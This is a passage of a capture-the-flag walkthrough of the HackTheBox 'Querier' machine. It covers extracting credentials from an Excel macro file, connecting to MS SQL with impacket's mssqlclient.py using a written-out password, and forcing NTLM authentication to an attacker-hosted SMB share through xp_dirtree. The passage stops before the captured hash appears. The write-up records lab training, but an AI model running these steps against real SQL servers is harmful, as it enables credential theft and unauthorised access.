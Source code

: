 Enumerating this directory returned a few files and folders, it can take some time to enumerate all of these folders and take a look at the files one by one, however, to save time the directory we want to be in is the directory called 'xl'. Changing into this directory and running 'ls' reveals 3 files and 2 more directories, performing a 'cat' on the vbaProject.bin file revealed the following information burried within it. 

![vbaProject](/assets/images/HackTheBox/Querier/vbaproject.png)

## Enumeration Conclusion

With a potential username and password found I could move onto exploitation and gaining a shell. 

# Exploitation

Now, before starting this box I had very little experience or exposure to MS SQL and enumerating/attacking this, I done a quick google and found a couple of useful links, [Hacktricks](https://book.hacktricks.xyz/pentesting/pentesting-mssql-microsoft-sql-server) and [markmotig's](https://medium.com/@markmotig/how-to-capture-mssql-credentials-with-xp-dirtree-smbserver-py-5c29d852f478) medium post. The medium post is more in-depth and relevant to the exploit in this situation, however, the hacktricks page is very good and full of resources for enumerating/attacking various services. 

## Connecting to SQL

The nmap scan at the very start of this box successfully identified that it was a Microsoft SQL server instance, therefore, in order to connect to MS SQL I utilised 'mssqlclient.py' which is part of the [impacket](https://github.com/SecureAuthCorp/impacket) toolkit.

    sudo mssqlclient.py QUERIER/reporting:'PcwTWTHRwryjc$c6'@10.10.10.125 -windows-auth

**Note:** You may not need to run with sudo, this will depend if you installed impacket as root or utilising sudo.

This command returned a SQL prompt! Hurahh! However, when I tried to run a command such as 'enable_xp_cmdshell' this told me to go do one as I didn't have the right privs. Bugger.

## Gaining SQL Privileges 

Right then, from this point on I was mostly following the steps outlined in the medium post which is linked above. 

To kick things off in a new tab I hosted an SMB server on my local Kali machine, again utilising the impacket toolkit. Seriously, impacket is awesome. 

    sudo smbserver.py -smb2support share myshare

With this running and waiting I jumped back to my SQL prompt and utilised the 'xp_dirtree' command:

    SQL>EXEC master.sys.xp_dirtree '\\10.10.14.20\\myshare',1, 1

In this command it's important to replace the IP address with your attacking machines IP and replace the 'myshare' with the name of the SMB share you hosted earlier.
Taking a look at my SMB server I have the following response:
